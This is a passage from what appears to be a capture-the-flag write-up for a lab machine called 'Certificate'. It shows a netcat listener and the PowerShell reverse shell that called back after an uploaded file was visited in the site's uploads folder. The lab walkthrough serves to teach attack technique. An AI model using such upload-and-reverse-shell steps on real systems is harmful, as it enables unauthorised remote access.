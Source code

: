 **Output**
```bash
listening on [any] 9001 ...
```

Now if we click on the link provided we'll see that the `pdf` is not found.
![PDF Not found](/assets/img/img_Certificate/Certificate-1749033184168.png)

However, if we visit our reverse shell file, we find that it gets stuck at loading.
![Stuck at Loading](/assets/img/img_Certificate/Certificate-1749033271110.png)

If we check our listener we'll see we got a call back!.
```powershell
connect to [10.10.14.158] from (UNKNOWN) [10.129.250.12] 58183

PS C:\xampp\htdocs\certificate.htb\static\uploads\8ad6b1453a685cd6a629959dcfb5039d> 
```
